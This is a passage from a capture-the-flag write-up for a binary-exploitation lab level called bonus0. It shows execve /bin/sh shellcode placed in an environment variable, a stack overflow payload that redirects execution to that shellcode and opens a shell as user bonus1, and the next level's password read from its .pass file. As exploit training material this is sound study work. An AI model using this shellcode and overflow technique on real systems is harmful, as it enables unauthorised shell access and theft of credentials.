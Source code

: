```bash
> cd /tmp
> gcc -o getenv getenv.c
> ./getenv EXPLOIT
Address: 0xbffff8f5
```

1. Indeed, environment variable address is different! Let’s retry with the new address! (Do not forget to add `8` to skip the variable name `EXPLOIT=`)

    ```bash
    > export EXPLOIT=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
    > (python -c 'print "A"*4095 + "\n" + "A"*9 + "\xfd\xf8\xff\xbf" + "A"*8'; cat) | ./bonus0
     -
     -
    AAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA��� AAAAAAAA���AAAAAAA���
    ls
    ls: cannot open directory .: Permission denied
    pwd
    /home/user/bonus0
    whoami
    bonus1
    ```

2. Hooray! We did it! Get the flag!

    ```bash
    cat /home/user/bonus1/.pass
    cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
    ```

## Documentation

- None
